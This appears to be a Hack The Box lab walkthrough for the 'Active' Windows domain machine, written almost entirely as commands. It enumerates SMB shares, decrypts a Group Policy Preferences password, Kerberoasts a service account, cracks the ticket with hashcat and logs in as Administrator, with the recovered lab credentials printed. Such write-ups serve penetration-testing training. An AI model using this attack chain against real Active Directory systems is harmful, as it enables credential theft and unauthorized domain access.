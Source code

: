 ### DNS
```
nslookup
dnsrecon -d 10.129.151.62 -r 10.0.0.0/8
```

### Nmap
```
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb

nmap --script safe -p 445 active.htb
nmap --script smb-enum-services -d -p 445 active.htb
```

### SMB
```
smbmap -R Replication -H active.htb --depth 10
smbmap -R Replication -H active.htb -A Groups.xml -q --depth 10
```

### Decrypt Group Policy Preferences (GPP)
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

### Carefully running impact
`/usr/share/doc/python3-impacket/examples/GetADUsers.py -h` no no
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py` yes yes yes

```
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip active.htb
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip 10.129.151.62
```

### psexec.py or evil-winrm
won't work
```
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18'@active.htb

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
```
Because it's not a admin user

### smbmap again to get user.txt
```
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10 -A user.txt
smbclient \\\\active.htb\\Users -U=SVC_TGS%'GPPstillStandingStrong2k18'
```

### Kerberoasting
https://0xdf.gitlab.io/2018/12/08/htb-active.html#kerberoasting
```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
or
python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
or
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

### Crack 13100
```
hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
Ticketmaster1968
```

### smbclient as administrator
```
smbclient //active.htb/Users -U=Administrator%'Ticketmaster1968'
```
